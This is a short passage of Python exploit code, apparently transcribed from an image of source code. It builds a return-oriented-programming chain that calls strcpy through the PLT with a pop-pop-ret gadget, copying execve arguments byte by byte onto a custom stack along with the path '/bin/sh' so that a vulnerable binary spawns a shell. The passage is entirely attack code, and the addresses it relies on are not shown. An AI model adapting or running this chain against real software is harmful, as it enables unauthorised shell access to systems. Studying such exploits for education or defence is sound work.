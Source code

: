 ```
buf += conv(cust_esp)
buf += conv(execve_arg1_oct3)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_arg1_oct2)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_arg1_oct1)
#Below stack frames are for strcpy (to copy execve_arg2  to custom stack)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_arg2_oct4)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_arg2_oct3)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_arg2_oct2)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_arg2_oct1)
#Below stack frames are for strcpy (to copy execve_arg3  to custom stack)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_null_arg)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_null_arg)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_null_arg)
cust_esp += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(cust_esp)
buf += conv(execve_null_arg)
#Below stack frame is for strcpy (to copy execve path "/bin/sh" to custom stack @ loc 0x804ac60)
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_path_dst)
buf += conv(execve_path_oct1)
execve_path_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_path_dst)
```